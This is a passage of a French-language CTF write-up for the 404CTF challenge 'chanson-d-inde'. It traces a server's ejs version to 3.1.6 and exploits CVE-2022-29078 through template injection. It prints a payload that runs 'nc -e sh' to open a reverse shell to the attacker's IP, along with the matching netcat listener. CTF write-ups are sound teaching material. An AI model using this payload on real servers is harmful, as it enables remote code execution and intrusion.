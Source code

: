 Allons consulter le [site de npm](https://www.npmjs.com/package/ejs?activeTab=versions) pour voir les dates de release des différentes versions... BINGO n°2 : la version 3.1.6 est sorie le 06/02/2021 et la 3.1.7 le 20/04/2022 !

Grâce au CHANGELOG nous savons maintenant que **la version d'ejs utilisée sur le site est probablement la 3.1.6, vulnérable à la CVE-2022-29078**.

### 5 - Mise en oeuvre de la CVE

Avec peu de recherches, on tombe rapidement sur cet excellent article de blog : https://eslam.io/posts/ejs-server-side-template-injection-rce/.

Pour résumer, cette CVE permet d'injecter du code dans le javascript qui va faire le rendu de la template ejs. Pour cela, on utilise un paramètre de debug vulnérable dans la requête HTTP.

L'erreur du développeur vient du fait qu'il transmet tous les paramètres, quels qu'ils soient, à la template de la page qu'il veut utiliser (soucis d'efficacité).

Prenons le code suivant :

```js
// index.js
app.get("/page", (req, res) => {
  res.render("page", req.query);
});
```

Passer tous les paramètres dans l'objet req.query à ejs permet de coder plus facilement la template, par exemple :

```html
<!-- page.ejs -->
<h1>Vous visitez la page <%= id %></h1>
```

De cette façon l'endpoint `/page?id=14` affichera "Vous visitez la page 14".

La Proof of Concept (PoC) nous propose de rajouter ce paramètre à la requête :

```js
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh <notre_IP> 1337');s
```

Un simple listener netcat sur notre machine devrait suffit à avoir un reverse shell : `nc -lnvp 1337`.

Testons donc :

```
https://chanson-d-inde.challenges.404ctf.fr?settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh <notre_IP> 1337');s
```

Rien ne se passe...

### Adapter la Proof of Concept

Il nous faut d'abord un endpoint qui transmet req.query à la template ejs. A priori, l'endpoint POST `/scene` le fait pour récupérer le paramètre `url`. On peut ouvrir Postman ou utiliser curl pour faire ce genre de requêtes. Essayons déjà d'executer un `sleep`.
